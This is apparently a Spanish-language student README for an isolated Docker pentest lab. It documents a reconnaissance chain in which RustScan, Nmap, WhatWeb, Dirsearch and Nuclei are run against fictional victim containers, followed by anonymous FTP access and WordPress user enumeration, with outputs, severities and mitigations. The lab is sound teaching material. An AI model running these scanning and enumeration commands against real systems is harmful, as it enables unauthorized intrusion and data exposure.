

# Parte 3 — Black Hat Bash

**Responsable:** Alex Alban · **Estado:** Completada

Laboratorio ofensivo con Docker Compose: 8 contenedores, segmentación de red en
dos subredes (dmz / internal), `make deploy`, `make test` y cadena de ataque
completa documentada con evidencia reproducible.

Documentación del proyecto: [README principal](../README.md) ·
[Diagrama de redes](../docs/diagrama-redes.md) ·
[Arquitectura](../docs/arquitectura-laboratorio.md) ·
[Evidencias](../docs/evidencias/lista-evidencias.md) ·
[Defensa oral](../docs/defensa-oral.md)

> **Aviso ético:** Solo ejecutar en este entorno aislado. Sin objetivos reales
> ni redes externas no autorizadas.

---

## Criterios de la rúbrica (checklist)

| Criterio | Cumplimiento | Evidencia |
|----------|--------------|-----------|
| Docker y Docker Compose instalados | `docker --version` → 29.6.0 | Sección [Despliegue](#despliegue) |
| `make deploy` exitoso | 8 imágenes construidas y levantadas | Sección [Despliegue](#despliegue) |
| `make test` = Lab is up | 3 scripts pasan sin errores | Sección [Verificación](#verificación) |
| 8 contenedores verificados | `docker compose ps` | Sección [Verificación](#verificación) |
| Redes br_dmz / br_internal validadas | `network/verify-network.sh` | Sección [Verificación](#verificación) |
| Tabla de arquitectura documentada | IP fija por contenedor | Sección [Arquitectura](#arquitectura-del-laboratorio) |
| `docker exec` a contenedor demostrado | acceso a attacker | Sección [Verificación](#verificación) |
| Técnica ofensiva ejecutada con evidencia | 6 herramientas, 19 archivos | Sección [Técnica ofensiva](#técnica-ofensiva) |
| Interpretación técnica correcta | hallazgos + severidad + causa | Sección [Hallazgos](#hallazgos) |
| Nivel de ambición: avanzado | RustScan → Nmap → WhatWeb → Dirsearch → Nuclei → FTP | Sección [Cadena de ataque](#cadena-de-ataque) |

---

## Arquitectura del laboratorio

### Redes

| Red Docker | Subred | Descripción |
|------------|--------|-------------|
| `integrative-lab_dmz` | `172.28.10.0/24` | Red pública — atacante y servicios expuestos |
| `integrative-lab_internal` | `172.28.20.0/24` | Red interna — bases de datos y servicios críticos |

### Contenedores

| Contenedor | Rol | IP dmz | IP internal | Puerto host |
|------------|-----|--------|-------------|-------------|
| attacker | Herramientas ofensivas (RustScan, Nmap, WhatWeb, Dirsearch, Nuclei) | 172.28.10.2 | — | — |
| victim-web | nginx + Flask + WordPress simulado | 172.28.10.10 | — | 8080→80 |
| victim-ftp | vsftpd 3.0.3 + Apache 2.4.67 | 172.28.10.11 | 172.28.20.11 | — |
| jumpbox | Bastión SSH | 172.28.10.13 | 172.28.20.12 | 2222→22 |
| victim-db | PostgreSQL 16 | — | 172.28.20.15 | — |
| dns | dnsmasq | — | 172.28.20.53 | — |
| mail | Postfix SMTP | — | 172.28.20.25 | — |
| monitor | tcpdump / Alpine | — | 172.28.20.30 | — |

### Topología



> El atacante (`172.28.10.2`) alcanza la DMZ pero **no puede llegar a victim-db**
> ni a los servicios en `172.28.20.0/24` — la segmentación funciona correctamente.

---

## Despliegue

### Requisitos

- Docker 24+ y Docker Compose v2
- 4 GB RAM mínimo, 10 GB disco libre

### Pasos

```bash
cd parte3-black-hat-bash
cp .env.example .env
make deploy
```

**Salida esperada:**

```
Container integrative-lab-attacker     Started
Container integrative-lab-dns          Started
Container integrative-lab-jumpbox      Started
Container integrative-lab-mail         Started
Container integrative-lab-monitor      Started
Container integrative-lab-victim-db    Started
Container integrative-lab-victim-ftp   Started
Container integrative-lab-victim-web   Started
```

### Otros comandos

```bash
make test       # verifica contenedores + redes + técnica ofensiva
make logs       # logs agregados en tiempo real
make offensive  # solo la fase ofensiva
make down       # detener y eliminar volúmenes
```

---

## Verificación

### 8 contenedores corriendo

```
$ docker compose ps --format 'table {{.Name}}\t{{.Status}}\t{{.Ports}}'

NAME                         STATUS          PORTS
integrative-lab-attacker     Up              
integrative-lab-dns          Up              53/tcp, 53/udp
integrative-lab-jumpbox      Up              0.0.0.0:2222->22/tcp
integrative-lab-mail         Up (healthy)    587/tcp
integrative-lab-monitor      Up              
integrative-lab-victim-db    Up (healthy)    5432/tcp
integrative-lab-victim-ftp   Up              21/tcp, 80/tcp
integrative-lab-victim-web   Up              0.0.0.0:8080->80/tcp, 8081/tcp
```

### Tests automáticos

```bash
$ make test

OK: 8 contenedores en ejecución
OK: attacker → victim-web (dmz)
OK: attacker → victim-ftp (dmz)
OK: attacker → jumpbox SSH (dmz)
OK: attacker → victim-db bloqueado (red internal)
OK: verificación de redes completada
```

### Acceso a contenedor

```bash
$ docker compose exec attacker bash
root@attacker:/lab# whoami
root
root@attacker:/lab# rustscan --version
rustscan 2.4.1
```

---

## Técnica ofensiva

**Nivel:** Avanzado — cadena completa de reconocimiento, enumeración,
escaneo de vulnerabilidades y acceso controlado.

**Referencia:** Black Hat Bash (Farhi & Aleks), Cap. 4–5.

**Ejecutar el playbook:**

```bash
docker compose exec attacker bash /lab/offensive/exploit.sh
```

Genera 19 archivos de evidencia en `offensive/evidencia/`.

---

## Cadena de ataque

```
[1] RustScan      → descubre superficie de ataque (puertos abiertos)
        ↓
[2] Nmap -sV -sC  → versiones exactas + scripts NSE (ftp-anon, ssh-auth-methods)
        ↓
[3] WhatWeb       → stack tecnológico de cada servicio HTTP
        ↓
[4] Dirsearch     → rutas ocultas (/upload, /uploads, /.git/)
        ↓
[5] Nuclei        → vulnerabilidades automatizadas (HIGH/MEDIUM/INFO)
        ↓
[6] FTP anónimo   → acceso sin credenciales → repos .git → emails de desarrolladores
        ↓
[7] WP REST API   → enumeración de usuarios WordPress (?rest_route=/wp/v2/users)
```

---

## Hallazgos

### Paso 1 — RustScan: reconocimiento de puertos

**Comando:**
```bash
rustscan -g -a 172.28.10.10,172.28.10.11,172.28.10.13 -r 1-9000
```

**Resultado** (`offensive/evidencia/01-rustscan-subred.txt`):
```
172.28.10.10 -> [80,8081]
172.28.10.11 -> [21,80]
172.28.10.13 -> [22]
```

**Interpretación:** Se identifican 3 hosts activos en la DMZ con 5 puertos de interés.
`victim-web` expone dos servicios HTTP (uno de ellos en un puerto no estándar 8081),
`victim-ftp` expone FTP y HTTP, y `jumpbox` expone SSH. La base de datos
(`172.28.20.15`) no aparece — la segmentación de red es efectiva.

---

### Paso 2 — Nmap: detección de servicios y versiones

**Comando:**
```bash
nmap -sV -sC --open -iL targets-integrative.txt -oA 03-nmap-servicios
nmap -p21 --script ftp-anon,ftp-syst 172.28.10.11 -oN 04-nmap-ftp-anon.txt
nmap --script ssh-auth-methods -p22 172.28.10.13 -oN 05-nmap-ssh-jumpbox.txt
```

**Resultado** (`offensive/evidencia/03-nmap-servicios.nmap`):

| Host | Puerto | Servicio | Versión | Hallazgo crítico |
|------|--------|---------|---------|-----------------|
| 172.28.10.10 | 80/tcp | HTTP | nginx 1.22.1 | WordPress "ACME Impact Alliance Blog"; `robots.txt` revela `/wp-admin/` y `/donate.php` |
| 172.28.10.10 | 8081/tcp | HTTP | Werkzeug/2.2.2 Python/3.11.2 | App interna "ACME Hyper Branding" sin autenticación |
| 172.28.10.11 | 21/tcp | FTP | vsftpd 3.0.3 | **FTP anónimo habilitado** (código 230); directorio `backup/` expuesto |
| 172.28.10.11 | 80/tcp | HTTP | Apache 2.4.67 | Directory indexing activo |
| 172.28.10.13 | 22/tcp | SSH | OpenSSH 9.2p1 | **Autenticación por contraseña habilitada** — vector de fuerza bruta |

**Interpretación:** vsftpd 3.0.3 con `anonymous_enable=YES` permite acceso sin
credenciales. Nmap lo confirma con código 230 y lista el contenido del directorio raíz
FTP. El jumpbox acepta contraseñas en SSH, lo que lo hace vulnerable a ataques de
diccionario (hydra, medusa).

---

### Paso 3 — WhatWeb: fingerprinting del stack tecnológico

**Comando:**
```bash
whatweb -v http://victim-web:8081
whatweb -v http://172.28.10.11/
whatweb -v http://victim-web/
```

**Resultado** (`offensive/evidencia/06-08-whatweb-*.txt`):

| Target | Stack detectado |
|--------|----------------|
| `victim-web:8081` | Werkzeug/2.2.2, Python/3.11.2 |
| `172.28.10.11` | Apache/2.4.67, Debian Linux |
| `victim-web:80` | nginx/1.22.1, PHP/8.0.28, WordPress (header `Link: </wp-json/>`) |

**Interpretación:** WhatWeb confirma que el puerto 80 de `victim-web` corre WordPress
(header `Link: </wp-json/>; rel="https://api.w.org/"` y `X-Powered-By: PHP/8.0.28`).
El puerto 8081 es una aplicación Flask interna. Apache en `victim-ftp` sirve los
repositorios de backup — dato clave para el siguiente paso.

---

### Paso 4 — Dirsearch: enumeración de rutas

**Comando:**
```bash
dirsearch -u http://victim-web:8081/ -t 30
dirsearch -u http://172.28.10.11/backup/acme-impact-alliance/ -t 30
dirsearch -u http://172.28.10.11/backup/acme-hyper-branding/ -t 30
dirsearch -u http://victim-web/ -e php,html,txt -t 30
```

**Resultados:**

`victim-web:8081` (`offensive/evidencia/09-dirsearch-web01.txt`):
```
200  245B  /upload    ← formulario de subida de archivos sin autenticación
200   57B  /uploads   ← directorio de archivos subidos accesible públicamente
```

`/backup/acme-impact-alliance/` (`offensive/evidencia/10-dirsearch-git-impact.txt`):
```
200  /backup/acme-impact-alliance/.git/config
200  /backup/acme-impact-alliance/.git/HEAD
200  /backup/acme-impact-alliance/.git/logs/HEAD
200  /backup/acme-impact-alliance/.git/refs/heads/master
200  /backup/acme-impact-alliance/README.md
```

`/backup/acme-hyper-branding/` (`offensive/evidencia/11-dirsearch-git-hyper.txt`):
```
200  /backup/acme-hyper-branding/.git/config
200  /backup/acme-hyper-branding/.git/HEAD
200  /backup/acme-hyper-branding/.git/logs/HEAD
200  /backup/acme-hyper-branding/.git/refs/heads/master
```

`victim-web:80` (`offensive/evidencia/12-dirsearch-web02.txt`):
```
200  /wp-login.php   ← panel de login WordPress accesible
200  /robots.txt     ← revela rutas sensibles
```

**Interpretación:** Dos hallazgos críticos. Primero, el endpoint `/upload` en la app
Flask no requiere autenticación — cualquier archivo puede subirse y accederse desde
`/uploads/`, lo que permitiría subir una webshell y obtener ejecución remota de código
(RCE). Segundo, los repositorios `.git` están completamente expuestos vía HTTP:
`/.git/config`, `HEAD`, `logs/` y `objects/` son accesibles. Con herramientas como
`git-dumper` se puede reconstruir el código fuente completo del proyecto.

---

### Paso 5 — Nuclei: escaneo de vulnerabilidades

**Comando:**
```bash
nuclei -t /root/nuclei-templates/ -u http://172.28.10.11
nuclei -t /root/nuclei-templates/ -u http://victim-web:8081
nuclei -t /root/nuclei-templates/ -u http://victim-web
nuclei -t /root/nuclei-templates/ -u 172.28.10.11:21
```

**Resultados** (`offensive/evidencia/13-16-nuclei-*.txt`):

| Template | Target | Severidad | Descripción |
|----------|--------|-----------|-------------|
| `git-config-exposure` | `http://172.28.10.11/backup/acme-impact-alliance/.git/config` | **HIGH** | Repositorio .git expuesto — información de desarrollador filtrada |
| `git-config-exposure` | `http://172.28.10.11/backup/acme-hyper-branding/.git/config` | **HIGH** | Repositorio .git expuesto — información de desarrollador filtrada |
| `unauthenticated-file-upload` | `http://victim-web:8081/uploads` | **HIGH** | Directorio de uploads accesible sin autenticación |
| `directory-listing` | `http://172.28.10.11/backup/` | **MEDIUM** | Directory indexing habilitado en Apache |
| `ftp-anonymous-login` | `172.28.10.11:21` | **MEDIUM** | Login FTP anónimo exitoso (código 230) |
| `wordpress-login-panel` | `http://victim-web/wp-login.php` | **INFO** | Panel de login WordPress expuesto |

**Interpretación:** Nuclei confirma automáticamente los hallazgos manuales con
clasificación CVSS. Los 3 HIGH representan vectores de ataque directos: los repos
`.git` expuestos permiten exfiltración de código fuente y credenciales embebidas;
el endpoint de uploads sin autenticación es un vector directo de RCE.

---

### Paso 6 — FTP anónimo: acceso y exfiltración

**Comando:**
```bash
lftp -u anonymous, -e "ls -la; cd backup; ls -la; bye" 172.28.10.11
```

**Resultado** (`offensive/evidencia/17-ftp-anon-listado.txt`):
```
drwxr-xr-x  backup/
-rw-rw-r--  index.html

backup/
drwxr-xr-x  acme-hyper-branding/
drwxr-xr-x  acme-impact-alliance/
```

**Datos extraídos de los repositorios `.git` expuestos:**

```
# acme-impact-alliance/.git/config
[user]
    name  = Kevin Peterson
    email = kpeterson@acme-impact-alliance.com

# acme-hyper-branding/.git/config
[user]
    name  = Melissa Rogers
    email = mrogers@acme-hyper-branding.com
```

**Interpretación:** El login FTP con `anonymous` / contraseña vacía da acceso a un
directorio `backup/` con copias de dos repositorios de clientes. Los archivos
`.git/config` expuestos revelan el nombre y email corporativo de dos desarrolladores.
Estos datos podrían usarse para ataques de spear-phishing, intentos de login en el
panel WordPress o ingeniería social. En un entorno real, la combinación FTP anónimo
+ repos con historial de commits podría revelar contraseñas o claves API en commits
anteriores.

---

### Paso 7 — Enumeración de usuarios WordPress

**Comando:**
```bash
curl -s "http://victim-web/?rest_route=/wp/v2/users"
```

**Resultado** (`offensive/evidencia/18-wp-user-enum.json`):
```json
[
  {
    "id": 1,
    "name": "jtorres",
    "slug": "jtorres",
    "link": "http://victim-web/author/jtorres/"
  }
]
```

**Interpretación:** La REST API de WordPress expone la lista de usuarios sin
autenticación. El usuario `jtorres` es un objetivo directo para un ataque de fuerza
bruta en `/wp-login.php`. Combinado con el email de Kevin Peterson obtenido del repo
`.git`, se puede construir un ataque de credenciales más sofisticado (username:
`jtorres`, email: variaciones de `kpeterson@acme-impact-alliance.com`).

---

## Resumen de hallazgos

| # | Vulnerabilidad | Severidad | Host | Herramienta |
|---|---------------|-----------|------|-------------|
| 1 | FTP anónimo habilitado | **ALTA** | 172.28.10.11:21 | Nmap, Nuclei, lftp |
| 2 | Repositorio `.git` expuesto (acme-impact-alliance) | **ALTA** | 172.28.10.11:80 | Dirsearch, Nuclei |
| 3 | Repositorio `.git` expuesto (acme-hyper-branding) | **ALTA** | 172.28.10.11:80 | Dirsearch, Nuclei |
| 4 | Endpoint de upload sin autenticación | **ALTA** | 172.28.10.10:8081 | Dirsearch, Nuclei |
| 5 | Directory indexing en `/backup/` | **MEDIA** | 172.28.10.11:80 | Dirsearch, Nuclei |
| 6 | SSH con autenticación por contraseña | **MEDIA** | 172.28.10.13:22 | Nmap NSE |
| 7 | Enumeración de usuarios WordPress (REST API) | **MEDIA** | 172.28.10.10:80 | curl |
| 8 | Panel WordPress `/wp-login.php` expuesto | **INFO** | 172.28.10.10:80 | Dirsearch, Nuclei |
| 9 | Versiones de software desactualizadas | **INFO** | Todos | Nmap, WhatWeb |

---

## Mitigaciones

| Vulnerabilidad | Mitigación recomendada |
|---------------|----------------------|
| FTP anónimo | Deshabilitar `anonymous_enable=YES` en vsftpd; migrar a SFTP con autenticación por clave |
| `.git` expuesto | Denegar `/.git` en Apache/nginx: `RedirectMatch 404 /\.git` |
| Directory indexing | `Options -Indexes` en la configuración de Apache |
| Upload sin autenticación | Requerir sesión autenticada; validar tipo MIME; restringir extensiones ejecutables |
| SSH password auth | Solo claves públicas (`PasswordAuthentication no`); instalar fail2ban |
| WP user enumeration | Bloquear la REST API pública: `add_filter('rest_endpoints', ...)` o usar plugin de seguridad |
| Versiones desactualizadas | Actualizar nginx, PHP, vsftpd y OpenSSH a últimas versiones estables |

---

## Archivos de evidencia

| Archivo | Herramienta | Contenido |
|---------|-------------|-----------|
| `offensive/evidencia/01-rustscan-subred.txt` | RustScan | Puertos abiertos por host |
| `offensive/evidencia/03-nmap-servicios.nmap` | Nmap | Versiones de servicios completas |
| `offensive/evidencia/04-nmap-ftp-anon.txt` | Nmap NSE | Confirmación FTP anónimo |
| `offensive/evidencia/05-nmap-ssh-jumpbox.txt` | Nmap NSE | Métodos de autenticación SSH |
| `offensive/evidencia/06-08-whatweb-*.txt` | WhatWeb | Stack tecnológico por target |
| `offensive/evidencia/09-dirsearch-web01.txt` | Dirsearch | `/upload`, `/uploads` en Flask |
| `offensive/evidencia/10-dirsearch-git-impact.txt` | Dirsearch | `.git/` expuesto en acme-impact-alliance |
| `offensive/evidencia/11-dirsearch-git-hyper.txt` | Dirsearch | `.git/` expuesto en acme-hyper-branding |
| `offensive/evidencia/12-dirsearch-web02.txt` | Dirsearch | `wp-login.php`, `robots.txt` en WordPress |
| `offensive/evidencia/13-nuclei-web01.txt` | Nuclei | `unauthenticated-file-upload` HIGH |
| `offensive/evidencia/14-nuclei-ftp-http.txt` | Nuclei | `git-config-exposure` HIGH × 2, `directory-listing` MEDIUM |
| `offensive/evidencia/15-nuclei-web02.txt` | Nuclei | `wordpress-login-panel` INFO |
| `offensive/evidencia/16-nuclei-ftp.txt` | Nuclei | `ftp-anonymous-login` MEDIUM |
| `offensive/evidencia/17-ftp-anon-listado.txt` | lftp | Listado `backup/` con repos de clientes |
| `offensive/evidencia/18-wp-user-enum.json` | curl | Usuario `jtorres` enumerado |

---

## Estructura

```
parte3-black-hat-bash/
├── README.md                  # Este archivo
├── Dockerfile
├── docker-compose.yml
├── Makefile
├── .env.example
├── services/
│   ├── attacker/              # RustScan, Nmap, WhatWeb, Dirsearch, Nuclei
│   ├── victim-web/            # nginx + Flask + WordPress simulado
│   ├── victim-ftp/            # vsftpd + Apache + repos .git
│   ├── jumpbox/               # SSH bastión
│   └── monitor/               # tcpdump
├── network/
│   ├── verify-network.sh      # Verifica segmentación dmz/internal
│   └── topology.md            # Descripción de la topología
├── offensive/
│   ├── exploit.sh             # Playbook automatizado completo
│   ├── tecnica.md             # Documentación técnica detallada
│   └── evidencia/             # 19 archivos de salida de herramientas
└── tests/
    ├── test-containers.sh     # Verifica 8 contenedores activos
    ├── test-networks.sh       # Verifica segmentación de red
    └── test-offensive.sh      # Ejecuta el playbook ofensivo
```
